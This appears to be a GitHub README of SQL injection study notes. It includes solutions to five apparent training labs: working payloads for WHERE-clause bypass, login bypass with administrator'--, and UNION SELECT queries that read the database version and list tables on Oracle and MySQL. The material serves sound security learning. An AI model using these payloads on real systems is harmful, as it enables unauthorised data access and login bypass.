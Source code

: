 ## How to:

1. To test the DB: Use `DUAL` Table in Oracle.
2. Can perform SQLI without Union:
  - Manipulating WHERE clauses.
  - Commenting out the remaining query
  - Subqueries
3. To Test SQLi: 1st Determine the Column Numbers > 
> Union merge the query in the Existing query.
- <img width="300" alt="image" src="https://github.com/IOxCyber/EssentialsCy/assets/40174034/bd9e2d73-516e-4903-995d-871992768e89">
4. The `information_schema.tables` table provides metadata information about tables within the RDBMS database.
- information_schema.tables, information_schema.columns, information_schema.views, information_schema.schemata
```
table_catalog: The name of the database/catalog.
table_schema: The schema or namespace containing the table.
table_name: The name of the table.
table_type: The type of the table, such as "BASE TABLE" or "VIEW".
```

## Solution:
- Lab 1: Retrieval of Hidden Data(Where): `Modify the category parameter, giving it the value '+OR+1=1--`
- Lab 2: SQL injection vulnerability allowing login bypass: `Modify the username parameter, giving it the value: administrator'--` or enter `' OR 1=1--` in username & pwd field
- Lab 3: Querying the database type and version on Oracle:
    - Verify the `number of columns` that are being returned by the query and which columns contain text data `'Union+SELECT+'NULL','NULL'+FROM+DUAL--`
    - Add the Payload in URL `'UNION+SELECT+banner,NULL+FROM+v$version--`

- Lab 4: Querying the database type and version on MySQL and Microsoft:
    - Verify the `number of columns` that are being returned by the query and which columns contain text data `'Union+SELECT+NULL+NULL#`,`# to Comment out in MySQL`
    - Add the Payload in URL 'Union+SELECT+@@version,NULL#

- Lab 5: listing the database contents on non-Oracle databases:
    - To know the table name `'Union+Select+table_name,NULL+FROM+information_schema.tables--`













